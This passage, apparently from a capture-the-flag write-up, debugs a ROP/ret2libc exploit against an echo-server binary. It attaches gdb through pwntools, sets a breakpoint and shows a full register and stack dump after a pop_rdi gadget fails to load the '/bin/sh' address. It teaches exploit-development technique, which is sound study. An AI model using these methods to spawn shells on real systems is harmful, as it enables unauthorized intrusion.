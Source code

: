 and the shell exits no matter what we enter. Thus, there seems to be a bug. We can use the line `gdb.attach(p)` to attach a gdb instance to the executable running in pwntools. Then, we set a breakpoint at the end of do_stuff(), which from Ghidra, is 0x400770. We can do this by entering, in the attached gdb window, the command `b *0x400770`. We can use the continue command `c` to let the executable run until a breakpoint is reached. This is what happens when we check the value of $rdi after the second payload's pop_rdi gadget is supposed to have put the binsh address into $rdi: 

```
0x0000000000400914 in __libc_csu_init ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x7a
$rbx   : 0x0
$rcx   : 0x00007f76734b1264  →  0x5477fffff0003d48 ("H="?)
$rdx   : 0x00007f767378e8c0  →  0x0000000000000000
$rsp   : 0x00007ffcf4bdd908  →  0x00007f76733f1360  →   cmp DWORD PTR [rsp+0x8], 0x1
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007f767378d7e3  →  0x78e8c0000000000a ("\n"?)
$rdi   : 0x00007f7673655f7a  →  0x00007f7673655f7a
$rip   : 0x0000000000400914  →  <__libc_csu_init+100> ret
$r8    : 0x79
$r9    : 0x0
$r10   : 0x0
$r11   : 0x246
$r12   : 0x1b
$r13   : 0x0
$r14   : 0x1b
$r15   : 0x0
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
───────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffcf4bdd908│+0x0000: 0x00007f76733f1360  →   cmp DWORD PTR [rsp+0x8], 0x1         ← $rsp
0x00007ffcf4bdd910│+0x0008: 0x6556724573206f00
0x00007ffcf4bdd918│+0x0010: 0x0000000000002152 ("R!"?)
0x00007ffcf4bdd920│+0x0018: 0x00007f767378d7e3  →  0x78e8c0000000000a ("\n"?)
0x00007ffcf4bdd928│+0x0020: 0x000000010000000a ("\n"?)
0x00007ffcf4bdd930│+0x0028: "Welcome to my echo server!"
0x00007ffcf4bdd938│+0x0030: "to my echo server!"
0x00007ffcf4bdd940│+0x0038: "ho server!"
─────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40090e <__libc_csu_init+94> pop    r13
     0x400910 <__libc_csu_init+96> pop    r14
     0x400912 <__libc_csu_init+98> pop    r15
 →   0x400914 <__libc_csu_init+100> ret
   ↳  0x7f76733f1360                  cmp    DWORD PTR [rsp+0x8], 0x1
      0x7f76733f1365                  je     0x7f76733f2163
      0x7f76733f136b                  mov    rdx, QWORD PTR [rsp+0x60]
      0x7f76733f1370                  movzx  eax, BYTE PTR [rdx]
      0x7f76733f1373                  test   al, al
      0x7f76733f1375                  je     0x7f76733f13a8
─────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln_patched", stopped 0x400914 in __libc_csu_init (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400914 → __libc_csu_init()
[#1] 0x7f76733f1360 → cmp DWORD PTR [rsp+0x8], 0x1
[#2] 0x7ffcf4bde1ba → push rax
[#3] 0x7ffcf4bde1e1 → rex.WR
[#4] 0x7ffcf4bde1f0 → rex.W
```